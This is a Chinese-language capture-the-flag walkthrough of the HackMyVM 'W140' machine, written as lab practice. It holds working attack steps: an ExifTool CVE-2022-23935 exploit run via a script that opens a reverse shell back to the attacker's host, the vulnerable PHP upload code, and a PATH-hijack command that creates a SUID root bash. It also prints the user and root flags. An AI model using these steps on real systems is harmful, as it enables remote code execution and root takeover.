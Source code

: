 # W140

2025.02.25 https://hackmyvm.eu/machines/machine.php?vm=W140

[video](https://www.bilibili.com/video/BV1nPPqe6EQC/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先访问 80 web 首页，发现了这个页面 http://192.168.5.40/service.html 上传图片，发现对图片执行了 ExifTool : 12.37 ，使用这个脚本进行利用 https://github.com/cowsecurity/CVE-2022-23935/blob/main/CVE-2022-23935.py

```
python3 CVE-2022-23935.py 192.168.5.3 8888
```

然后在 kali 上创建监听，最后上传生成的图片，这时得到了反弹的 shell。

```
www-data@w140:/var/www/uploads/1740486588$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

这里看到了漏洞利用的出现地方：

```
echo '<p>'.$sanitised.' has been uploaded. The analysis report can be viewed <a href=analysed_images/'.$sanitised.'.txt>here</a> </p>';
echo '<p>Please save this report as it will only be available for the next five minutes</p>';
$folder = "/var/www/uploads/$folder";
$cmd = "cd $folder && /opt/exiftool/exiftool * > /var/www/html/analysed_images/$sanitised.txt";
shell_exec($cmd);
```

Exiftool 12.38 之前存在安全漏洞，该漏洞源于 lib/Image/ExifTool.pm 错误处理 $file =~ /|$/ 检查。将命令使用 base64 编码写入到文件名中，就会触发命令执行。

在 /var/www 中发现隐藏的图片 .w140.png 下载到 kali 查看，是一个二维码，使用工具进行识别，内容为: BaoeCblP5KGJDmA 可能是 ghost 用户的密码，进行切换，成功，拿到了 user flag：

```
ghost@w140:~$ cat  user.txt
61f1157a5b8f5a4b6729367098fcb2a4
```

sudo -l 显示 (root) SETENV: NOPASSWD: /opt/Benz-w140 ，其中有 SETENV 可以进行路径劫持，查看 /opt/Benz-w140 看哪些命令没有使用全局路径，准备劫持 find：

```
mkdir -p /home/ghost/w140
cd /tmp
echo 'cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash' > find
chmod +x /tmp/find
sudo -u root PATH=/tmp:$PATH /opt/Benz-w140
```

拿到了最终的 flag：

```
ghost@w140:/tmp$ ./rootbash -p
rootbash-5.1# cd /root
rootbash-5.1# ls
root.txt
rootbash-5.1# cat root.txt
2f9f7d1b4a6ae9d6bbbaf6298c5dcc25
```
